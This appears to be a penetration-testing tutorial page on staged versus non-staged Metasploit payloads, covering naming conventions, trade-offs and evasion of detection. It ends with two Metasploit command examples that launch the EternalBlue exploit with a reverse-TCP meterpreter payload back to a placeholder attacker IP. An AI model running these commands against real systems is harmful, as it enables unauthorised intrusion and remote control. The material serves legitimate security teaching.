 # Staged vs. Non-Staged Payloads

## Overview

In penetration testing and ethical hacking, understanding the difference between staged and non-staged payloads is crucial for successful exploitation. This document explains the key differences, use cases, and considerations for each type.

## Staged Payloads

Staged payloads operate in multiple steps:

1. **Initial Shellcode**: A small piece of code (stage 1) is sent to the target system
2. **Connection Back**: This initial code connects back to the attacker
3. **Full Payload Download**: The full payload (stage 2) is then downloaded and executed

### Characteristics:

- **Size**: Initial payload is small (often < 500 bytes)
- **Network Activity**: Requires multiple connections
- **Examples**: `windows/meterpreter/reverse_tcp`, `linux/x86/shell/reverse_tcp`
- **Naming Convention**: Uses a single `/` in the middle of the payload name

### Advantages:

- Useful when exploit space is limited
- Can bypass size restrictions in vulnerable applications
- More flexible for complex environments

### Disadvantages:

- Requires stable network connectivity for all stages
- More likely to be detected by security tools (multiple connections)
- Can fail if network conditions change between stages

## Non-Staged Payloads

Non-staged payloads contain everything needed in a single package:

1. **Complete Payload**: The entire payload is sent to the target at once
2. **Direct Execution**: No additional downloads required

### Characteristics:

- **Size**: Larger initial size (can be several KB)
- **Network Activity**: Single connection
- **Examples**: `windows/meterpreter_reverse_tcp`, `linux/x86/shell_reverse_tcp`
- **Naming Convention**: Uses an underscore `_` instead of a `/` (e.g., `shell_reverse_tcp` vs `shell/reverse_tcp`)

### Advantages:

- More reliable in unstable network conditions
- Potentially less suspicious (single connection)
- Faster execution (no waiting for second stage)

### Disadvantages:

- May not fit within size constraints of some exploits
- Less flexibility in memory-constrained environments

## When to Use Each Type

### Use Staged Payloads When:

- The exploit has strict size limitations
- Memory is constrained on the target system
- You need advanced functionality that requires a larger payload
- The target has reliable network connectivity

### Use Non-Staged Payloads When:

- Network connectivity is unstable or limited
- Speed of exploitation is critical
- You need to minimize network traffic
- The exploit has sufficient space for the full payload
- You're concerned about detection of multiple connection attempts

## Practical Examples in Metasploit

### Staged Payload Example:

```
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
exploit
```

### Non-Staged Payload Example:

```
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter_reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
exploit
```

## Identifying Payload Types in Metasploit

You can easily identify whether a payload is staged or non-staged by looking at its name:

- **Staged**: Contains a forward slash (e.g., `windows/meterpreter/reverse_tcp`)
- **Non-Staged**: Contains an underscore instead (e.g., `windows/meterpreter_reverse_tcp`)

## Conclusion

The choice between staged and non-staged payloads depends on the specific scenario, target environment, and exploitation requirements. Understanding the advantages and limitations of each type allows penetration testers to choose the most appropriate approach for successful exploitation while maintaining stealth and reliability.
